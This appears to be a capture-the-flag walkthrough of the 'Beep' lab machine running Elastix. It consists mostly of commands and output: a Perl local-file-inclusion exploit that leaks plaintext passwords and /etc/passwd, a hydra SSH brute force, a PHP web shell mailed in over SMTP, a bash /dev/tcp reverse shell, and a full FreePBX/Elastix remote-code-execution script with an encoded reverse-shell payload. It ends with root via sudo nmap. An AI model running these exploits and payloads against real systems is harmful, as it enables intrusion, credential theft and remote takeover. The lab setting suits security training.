

#### Beep

- [Attacker Info]()
- [Nmap Scan]()
- [LFI]()
- [Code exec via call]()
- [Shellshock]()

###### Attacker Info

```sh
root@kali:~/beep# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.1.19  netmask 255.255.255.0  broadcast 192.168.1.255
        inet6 fe80::20c:29ff:fef1:8ebf  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:f1:8e:bf  txqueuelen 1000  (Ethernet)
        RX packets 2128  bytes 963295 (940.7 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1654  bytes 183541 (179.2 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
        device interrupt 19  base 0x2000

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 24  bytes 1272 (1.2 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 24  bytes 1272 (1.2 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.14.8  netmask 255.255.254.0  destination 10.10.14.8
        inet6 fe80::d8f4:9e68:820b:5d15  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef:2::1006  prefixlen 64  scopeid 0x0<global>
        unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 100  (UNSPEC)
        RX packets 1151  bytes 47364 (46.2 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1182  bytes 52100 (50.8 KiB)
        TX errors 0  dropped 441 overruns 0  carrier 0  collisions 0

root@kali:~/beep#
```

###### Nmap Scan

```sh
root@kali:~/beep# nmap -sV -sC -oA beep.nmap 10.10.10.7

Starting Nmap 7.60 ( https://nmap.org ) at 2018-01-31 23:08 EST
Nmap scan report for 10.10.10.7
Host is up (0.19s latency).
Not shown: 988 closed ports
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey:
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN,
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: PIPELINING APOP IMPLEMENTATION(Cyrus POP3 server v2) EXPIRE(NEVER) UIDL LOGIN-DELAY(0) TOP AUTH-RESP-CODE STLS RESP-CODES USER
111/tcp   open  rpcbind    2 (RPC #100000)
| rpcinfo:
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100024  1            742/udp  status
|_  100024  1            745/tcp  status
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: MAILBOX-REFERRALS Completed ID OK X-NETSCAPE NO ATOMIC SORT UIDPLUS IDLE BINARY LITERAL+ URLAUTHA0001 ACL CATENATE SORT=MODSEQ RIGHTS=kxte LISTEXT CONDSTORE NAMESPACE IMAP4rev1 UNSELECT LIST-SUBSCRIBED IMAP4 ANNOTATEMORE RENAME THREAD=REFERENCES THREAD=ORDEREDSUBJECT MULTIAPPEND CHILDREN STARTTLS QUOTA
443/tcp   open  ssl/http   Apache httpd 2.2.3 ((CentOS))
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Elastix - Login page
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2017-04-07T08:22:08
|_Not valid after:  2018-04-07T08:22:08
|_ssl-date: 2018-02-01T03:51:38+00:00; -19m39s from scanner time.
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4445/tcp  open  upnotifyp?
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com

Host script results:
|_clock-skew: mean: -19m39s, deviation: 0s, median: -19m39s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 254.64 seconds
root@kali:~/beep#
```

```
https://10.10.10.7
```


```sh
root@kali:~/beep# gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://10.10.10.7 -t 25

Gobuster v1.2                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : https://10.10.10.7/
[+] Threads      : 25
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,307
=====================================================
/images (Status: 301)
/help (Status: 301)
/themes (Status: 301)
/modules (Status: 301)
/mail (Status: 301)
/admin (Status: 301)
/static (Status: 301)
/lang (Status: 301)
/var (Status: 301)
/panel (Status: 301)
/libs (Status: 301)
/recordings (Status: 301)
/configs (Status: 301)
```

```
https://10.10.10.7/admin
```




```
https://10.10.10.7/help
```


```sh
root@kali:~/beep# curl -k https://10.10.10.7/themes/elastixneo/images/elastix_logo_mini.png -o elastix_logo_mini.png
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 11332  100 11332    0     0  11332      0  0:00:01  0:00:01 --:--:--  7703
root@kali:~/beep#
```

```sh
apt install exiftool
```

```sh
root@kali:~/beep# exiftool elastix_logo_mini.png
ExifTool Version Number         : 10.75
File Name                       : elastix_logo_mini.png
Directory                       : .
File Size                       : 11 kB
File Modification Date/Time     : 2018:01:31 23:24:54-05:00
File Access Date/Time           : 2018:01:31 23:24:54-05:00
File Inode Change Date/Time     : 2018:01:31 23:24:54-05:00
File Permissions                : rw-r--r--
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Image Width                     : 200
Image Height                    : 62
Bit Depth                       : 8
Color Type                      : RGB with Alpha
Compression                     : Deflate/Inflate
Filter                          : Adaptive
Interlace                       : Noninterlaced
Pixels Per Unit X               : 2835
Pixels Per Unit Y               : 2835
Pixel Units                     : meters
Profile Name                    : Photoshop ICC profile
Profile CMM Type                : Linotronic
Profile Version                 : 2.1.0
Profile Class                   : Display Device Profile
Color Space Data                : RGB
Profile Connection Space        : XYZ
Profile Date Time               : 1998:02:09 06:49:00
Profile File Signature          : acsp
Primary Platform                : Microsoft Corporation
CMM Flags                       : Not Embedded, Independent
Device Manufacturer             : Hewlett-Packard
Device Model                    : sRGB
Device Attributes               : Reflective, Glossy, Positive, Color
Rendering Intent                : Perceptual
Connection Space Illuminant     : 0.9642 1 0.82491
Profile Creator                 : Hewlett-Packard
Profile ID                      : 0
Profile Copyright               : Copyright (c) 1998 Hewlett-Packard Company
Profile Description             : sRGB IEC61966-2.1
Media White Point               : 0.95045 1 1.08905
Media Black Point               : 0 0 0
Red Matrix Column               : 0.43607 0.22249 0.01392
Green Matrix Column             : 0.38515 0.71687 0.09708
Blue Matrix Column              : 0.14307 0.06061 0.7141
Device Mfg Desc                 : IEC http://www.iec.ch
Device Model Desc               : IEC 61966-2.1 Default RGB colour space - sRGB
Viewing Cond Desc               : Reference Viewing Condition in IEC61966-2.1
Viewing Cond Illuminant         : 19.6445 20.3718 16.8089
Viewing Cond Surround           : 3.92889 4.07439 3.36179
Viewing Cond Illuminant Type    : D50
Luminance                       : 76.03647 80 87.12462
Measurement Observer            : CIE 1931
Measurement Backing             : 0 0 0
Measurement Geometry            : Unknown
Measurement Flare               : 0.999%
Measurement Illuminant          : D65
Technology                      : Cathode Ray Tube Display
Red Tone Reproduction Curve     : (Binary data 2060 bytes, use -b option to extract)
Green Tone Reproduction Curve   : (Binary data 2060 bytes, use -b option to extract)
Blue Tone Reproduction Curve    : (Binary data 2060 bytes, use -b option to extract)
Gamma                           : 2.2
White Point X                   : 0.31269
White Point Y                   : 0.32899
Red X                           : 0.63999
Red Y                           : 0.33001
Green X                         : 0.3
Green Y                         : 0.6
Blue X                          : 0.15
Blue Y                          : 0.05999
Image Size                      : 200x62
Megapixels                      : 0.012
root@kali:~/beep#
```

###### LFI

```sh
root@kali:~/beep# searchsploit elastix

-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------------
 Exploit Title                                                                                                                                                      |  Path
                                                                                                                                                                    | (/usr/share/exploitdb/)
-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------------
Elastix - 'page' Cross-Site Scripting                                                                                                                               | exploits/php/webapps/38078.py
Elastix - Multiple Cross-Site Scripting Vulnerabilities                                                                                                             | exploits/php/webapps/38544.txt
Elastix 2.0.2 - Multiple Cross-Site Scripting Vulnerabilities                                                                                                       | exploits/php/webapps/34942.txt
Elastix 2.2.0 - 'graph.php' Local File Inclusion                                                                                                                    | exploits/php/webapps/37637.pl
Elastix 2.x - Blind SQL Injection                                                                                                                                   | exploits/php/webapps/36305.txt
Elastix < 2.5 - PHP Code Injection                                                                                                                                  | exploits/php/webapps/38091.php
FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution                                                                                                              | exploits/php/webapps/18650.py
-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------------
Shellcodes: No Result
root@kali:~/beep#
```

```sh
root@kali:~/beep# searchsploit -m exploits/php/webapps/37637.pl

  Exploit: Elastix 2.2.0 - 'graph.php' Local File Inclusion
      URL: https://www.exploit-db.com/exploits/37637/
     Path: /usr/share/exploitdb/exploits/php/webapps/37637.pl
File Type: ASCII text, with CRLF line terminators

Copied to: /root/beep/37637.pl


root@kali:~/beep#
```

``37637.pl``

```perl
source: http://www.securityfocus.com/bid/55078/info

Elastix is prone to a local file-include vulnerability because it fails to properly sanitize user-supplied input.

An attacker can exploit this vulnerability to view files and execute local scripts in the context of the web server process. This may aid in further attacks.

Elastix 2.2.0 is vulnerable; other versions may also be affected.

#!/usr/bin/perl -w

#------------------------------------------------------------------------------------#
#Elastix is an Open Source Sofware to establish Unified Communications.
#About this concept, Elastix goal is to incorporate all the communication alternatives,
#available at an enterprise level, into a unique solution.
#------------------------------------------------------------------------------------#
############################################################
# Exploit Title: Elastix 2.2.0 LFI
# Google Dork: :(
# Author: cheki
# Version:Elastix 2.2.0
# Tested on: multiple
# CVE : notyet
# romanc-_-eyes ;)
# Discovered by romanc-_-eyes
# vendor http://www.elastix.org/

print "\t Elastix 2.2.0 LFI Exploit \n";
print "\t code author cheki   \n";
print "\t 0day Elastix 2.2.0  \n";
print "\t email: anonymous17hacker{}gmail.com \n";

#LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action

use LWP::UserAgent;
print "\n Target: https://ip ";
chomp(my $target=<STDIN>);
$dir="vtigercrm";
$poc="current_language";
$etc="etc";
$jump="../../../../../../../..//";
$test="amportal.conf%00";

$code = LWP::UserAgent->new() or die "inicializacia brauzeris\n";
$code->agent('Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1)');
$host = $target . "/".$dir."/graph.php?".$poc."=".$jump."".$etc."/".$test."&module=Accounts&action";
$res = $code->request(HTTP::Request->new(GET=>$host));
$answer = $res->content; if ($answer =~ 'This file is part of FreePBX') {

print "\n read amportal.conf file : $answer \n\n";
print " successful read\n";

}
else {
print "\n[-] not successful\n";
}
```

```
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```


```sh
root@kali:~/beep# cat pw
asterisk
amp109
jEhdIekWmdjE
root@kali:~/beep#
```

```
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action
```


```sh
root@kali:~/beep# cat users
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/etc/news:
uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
gopher:x:13:30:gopher:/var/gopher:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
distcache:x:94:94:Distcache:/:/sbin/nologin
vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin
pcap:x:77:77::/var/arpwatch:/sbin/nologin
ntp:x:38:38::/etc/ntp:/sbin/nologin
cyrus:x:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bash
dbus:x:81:81:System message bus:/:/sbin/nologin
apache:x:48:48:Apache:/var/www:/sbin/nologin
mailman:x:41:41:GNU Mailing List Manager:/usr/lib/mailman:/sbin/nologin
rpc:x:32:32:Portmapper RPC user:/:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
asterisk:x:100:101:Asterisk VoIP PBX:/var/lib/asterisk:/bin/bash
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
spamfilter:x:500:500::/home/spamfilter:/bin/bash
haldaemon:x:68:68:HAL daemon:/:/sbin/nologin
xfs:x:43:43:X Font Server:/etc/X11/fs:/sbin/nologin
fanis:x:501:501::/home/fanis:/bin/bash
Sorry! Attempt to access restricted file.
root@kali:~/beep#
```


```
:g/nologin/d
```

```sh
root@kali:~/beep# cat users
root:x:0:0:root:/root:/bin/bash
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
news:x:9:13:news:/etc/news:
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
cyrus:x:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bash
asterisk:x:100:101:Asterisk VoIP PBX:/var/lib/asterisk:/bin/bash
spamfilter:x:500:500::/home/spamfilter:/bin/bash
fanis:x:501:501::/home/fanis:/bin/bash
Sorry! Attempt to access restricted file.
root@kali:~/beep#
```

```sh
root@kali:~/beep# cat users
root
mysql
cyrus
asterisk
spamfilter
fanis
root@kali:~/beep#
```

```sh
root@kali:~/beep# hydra -L users -P pw ssh://10.10.10.7
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2018-01-31 23:46:05
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 18 login tries (l:6/p:0), ~3 tries per task
[DATA] attacking ssh://10.10.10.7:22/
[22][ssh] host: 10.10.10.7   login: root   password: jEhdIekWmdjE
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 16 targets did not complete
Hydra (http://www.thc.org/thc-hydra) finished at 2018-01-31 23:46:16
root@kali:~/beep#
```

```sh
root@kali:~/beep# ssh root@10.10.10.7
The authenticity of host '10.10.10.7 (10.10.10.7)' can't be established.
RSA key fingerprint is SHA256:Ip2MswIVDX1AIEPoLiHsMFfdg1pEJ0XXD5nFEjki/hI.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.10.7' (RSA) to the list of known hosts.
root@10.10.10.7's password:
Last login: Wed Jan 31 11:35:59 2018 from 10.10.14.2

Welcome to Elastix
----------------------------------------------------

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.10.10.7

[root@beep ~]# ls -l
total 16248
-rw------- 1 root root     6025 Apr  7  2017 anaconda-ks.cfg
-r-xr-xr-x 1 root root   190461 Aug 10  2011 elastix-pr-2.2-1.i386.rpm
-rw-r--r-- 1 root root    18433 Apr  7  2017 install.log
-rw-r--r-- 1 root root        0 Apr  7  2017 install.log.syslog
-rw-r--r-- 1 root root        1 Apr  7  2017 postnochroot
-rw------- 1 root root       33 Apr  7  2017 root.txt
-r-xr-xr-x 1 root root 16358730 Oct 31  2011 webmin-1.570-1.noarch.rpm
[root@beep ~]#
```

```sh
[root@beep ~]# cat root.txt
d88e006123842106982acce0aaf453f0
[root@beep ~]#
```

```sh
[root@beep fanis]# cat user.txt
aeff3def0c765c2677b94715cffa73ac
[root@beep fanis]#
```


```sh
root@kali:~/beep# git clone https://github.com/tennc/fuzzdb.git
Cloning into 'fuzzdb'...
remote: Counting objects: 3329, done.
remote: Total 3329 (delta 0), reused 0 (delta 0), pack-reused 3329
Receiving objects: 100% (3329/3329), 246.13 MiB | 6.50 MiB/s, done.
Resolving deltas: 100% (1171/1171), done.
root@kali:~/beep#
```


```sh
[root@beep tmp]# ls -l | tail
-rw------- 1 asterisk asterisk    0 Jan 31 20:58 sess_vlo6jdvmgacdu7mn2o9f1tgma0
-rw------- 1 asterisk asterisk    0 Jan 31 20:05 sess_vmdfmqhlm109hqk0gh2iemtuf1
-rw------- 1 asterisk asterisk    0 Jan 31 21:12 sess_vmhtgalmc0fboaakv9ujnro8d6
-rw------- 1 asterisk asterisk    0 Jan 31 20:08 sess_vn0f2g83kl4ht3d24lc69cmd27
-rw------- 1 asterisk asterisk    0 Jan 31 20:22 sess_voipciouhtiireudvbothivdq5
-rw------- 1 asterisk asterisk    0 Jan 31 19:31 sess_vqhc2b511i9d6cc0i445tjkta0
-rw------- 1 asterisk asterisk    0 Jan 31 20:22 sess_vs4o71eb7gqbh3dretvq6hvoq4
-rw------- 1 asterisk asterisk    0 Jan 31 19:57 sess_vtqso4gjtl5pf4aqbbdn1dcq26
-rw------- 1 asterisk asterisk    0 Jan 31 19:32 sess_vuho4ba4in8heu24qjkfa0ke77
-rw-r--r-- 1 root     root     4036 Apr  7  2017 trunk_dump.sql
[root@beep tmp]#
```


```sh
root@kali:~/beep# telnet 10.10.10.7 25
Trying 10.10.10.7...
Connected to 10.10.10.7.
Escape character is '^]'.
220 beep.localdomain ESMTP Postfix
EHLO kanishka.beep.htb
250-beep.localdomain
250-PIPELINING
250-SIZE 10240000
250-VRFY
250-ETRN
250-ENHANCEDSTATUSCODES
250-8BITMIME
250 DSN
VRFY asterisk@localhost
252 2.0.0 asterisk@localhost
VRFY sjdhgfjh
550 5.1.1 <sjdhgfjh>: Recipient address rejected: User unknown in local recipient table
mail from:pawned@test.com
250 2.1.0 Ok
rcpt to:asterisk@localhost
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
Subject:You git 0wned
<?php echo system($_REQUEST['cmd']); ?>

.
250 2.0.0 Ok: queued as C5C5ED9300
exit
^]

telnet> Connection closed.
root@kali:~/beep#
```


[``Reverse Shell Cheat Sheet``](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

```sh
bash -i >& /dev/tcp/10.10.14.8/1337 0>&1
```


```sh
root@kali:~/beep# nc -nlvp 8081
listening on [any] 8081 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.7] 39951
bash: no job control in this shell
bash-3.2$ id
uid=100(asterisk) gid=101(asterisk) groups=101(asterisk)
bash-3.2$ sudo -l
Matching Defaults entries for asterisk on this host:
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR
    LS_COLORS MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC
    LC_PAPER LC_TELEPHONE LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY"

User asterisk may run the following commands on this host:
    (root) NOPASSWD: /sbin/shutdown
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/bin/yum
    (root) NOPASSWD: /bin/touch
    (root) NOPASSWD: /bin/chmod
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /sbin/service
    (root) NOPASSWD: /sbin/init
    (root) NOPASSWD: /usr/sbin/postmap
    (root) NOPASSWD: /usr/sbin/postfix
    (root) NOPASSWD: /usr/sbin/saslpasswd2
    (root) NOPASSWD: /usr/sbin/hardware_detector
    (root) NOPASSWD: /sbin/chkconfig
    (root) NOPASSWD: /usr/sbin/elastix-helper
bash-3.2$ sudo nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
exit
waiting to reap child: No child processes (10)
nmap>
```

###### Code exec via call

```sh
root@kali:~/beep# searchsploit elastix

-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------------
 Exploit Title                                                                                                                                                      |  Path
                                                                                                                                                                    | (/usr/share/exploitdb/)
-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------------
Elastix - 'page' Cross-Site Scripting                                                                                                                               | exploits/php/webapps/38078.py
Elastix - Multiple Cross-Site Scripting Vulnerabilities                                                                                                             | exploits/php/webapps/38544.txt
Elastix 2.0.2 - Multiple Cross-Site Scripting Vulnerabilities                                                                                                       | exploits/php/webapps/34942.txt
Elastix 2.2.0 - 'graph.php' Local File Inclusion                                                                                                                    | exploits/php/webapps/37637.pl
Elastix 2.x - Blind SQL Injection                                                                                                                                   | exploits/php/webapps/36305.txt
Elastix < 2.5 - PHP Code Injection                                                                                                                                  | exploits/php/webapps/38091.php
FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution                                                                                                              | exploits/php/webapps/18650.py
-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------------
Shellcodes: No Result
root@kali:~/beep#
```

```sh
root@kali:~/beep# searchsploit -m exploits/php/webapps/18650.py

  Exploit: FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/18650/
     Path: /usr/share/exploitdb/exploits/php/webapps/18650.py
File Type: Python script, ASCII text executable, with very long lines, with CRLF line terminators

Copied to: /root/beep/18650.py


root@kali:~/beep#
```

```18650.py```

```python
#!/usr/bin/python
############################################################
# Exploit Title: FreePBX / Elastix pre-authenticated remote code execution exploit
# Google Dork: oy vey
# Date: March 23rd, 2012
# Author: muts
# Version: FreePBX 2.10.0/ 2.9.0, Elastix 2.2.0, possibly others.
# Tested on: multiple
# CVE : notyet
# Blog post : http://www.offensive-security.com/vulndev/freepbx-exploit-phone-home/
# Archive Url : http://www.offensive-security.com/0day/freepbx_callmenum.py.txt
############################################################
# Discovered by Martin Tschirsich
# http://seclists.org/fulldisclosure/2012/Mar/234
# http://www.exploit-db.com/exploits/18649
############################################################
import urllib
rhost="10.10.10.7"
lhost="10.10.14.8"
lport=443
extension="1000"

# Reverse shell payload

url = 'https://'+str(rhost)+'/recordings/misc/callme_page.php?action=c&callmenum='+str(extension)+'@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%22'+str(lhost)+'%3a'+str(lport)+'%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A'

urllib.urlopen(url)

# On Elastix, once we have a shell, we can escalate to root:
# root@bt:~# nc -lvp 443
# listening on [any] 443 ...
# connect to [172.16.254.223] from voip [172.16.254.72] 43415
# id
# uid=100(asterisk) gid=101(asterisk)
# sudo nmap --interactive

# Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
# Welcome to Interactive Mode -- press h <enter> for help
# nmap> !sh
# id
# uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
```

```sh
root@kali:~/beep# python 18650.py
Traceback (most recent call last):
  File "18650.py", line 27, in <module>
    urllib.urlopen(url)
  File "/usr/lib/python2.7/urllib.py", line 87, in urlopen
    return opener.open(url)
  File "/usr/lib/python2.7/urllib.py", line 213, in open
    return getattr(self, name)(url)
  File "/usr/lib/python2.7/urllib.py", line 443, in open_https
    h.endheaders(data)
  File "/usr/lib/python2.7/httplib.py", line 1038, in endheaders
    self._send_output(message_body)
  File "/usr/lib/python2.7/httplib.py", line 882, in _send_output
    self.send(msg)
  File "/usr/lib/python2.7/httplib.py", line 844, in send
    self.connect()
  File "/usr/lib/python2.7/httplib.py", line 1263, in connect
    server_hostname=server_hostname)
  File "/usr/lib/python2.7/ssl.py", line 369, in wrap_socket
    _context=self)
  File "/usr/lib/python2.7/ssl.py", line 617, in __init__
    self.do_handshake()
  File "/usr/lib/python2.7/ssl.py", line 846, in do_handshake
    self._sslobj.do_handshake()
IOError: [Errno socket error] [SSL: CERTIFICATE_VERIFY_FAILED] certificate verify failed (_ssl.c:661)
root@kali:~/beep#
```

```18650.py```

```python
root@kali:~/beep# cat 18650.py
#!/usr/bin/python
############################################################
# Exploit Title: FreePBX / Elastix pre-authenticated remote code execution exploit
# Google Dork: oy vey
# Date: March 23rd, 2012
# Author: muts
# Version: FreePBX 2.10.0/ 2.9.0, Elastix 2.2.0, possibly others.
# Tested on: multiple
# CVE : notyet
# Blog post : http://www.offensive-security.com/vulndev/freepbx-exploit-phone-home/
# Archive Url : http://www.offensive-security.com/0day/freepbx_callmenum.py.txt
############################################################
# Discovered by Martin Tschirsich
# http://seclists.org/fulldisclosure/2012/Mar/234
# http://www.exploit-db.com/exploits/18649
############################################################
import urllib
rhost="127.0.0.1"
lhost="10.10.14.8"
lport=443
extension="1000"

# Reverse shell payload

url = 'http://'+str(rhost)+'/recordings/misc/callme_page.php?action=c&callmenum='+str(extension)+'@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%22'+str(lhost)+'%3a'+str(lport)+'%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A'

urllib.urlopen(url)

# On Elastix, once we have a shell, we can escalate to root:
# root@bt:~# nc -lvp 443
# listening on [any] 443 ...
# connect to [172.16.254.223] from voip [172.16.254.72] 43415
# id
# uid=100(asterisk) gid=101(asterisk)
# sudo nmap --interactive

# Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
# Welcome to Interactive Mode -- press h <enter> for help
# nmap> !sh
# id
# uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
root@kali:~/beep#
```

```sh
root@kali:~/beep# python 18650.py
```

```sh
root@kali:~/beep# nc -nlvp 443
listening on [any] 443 ...
```


```sh
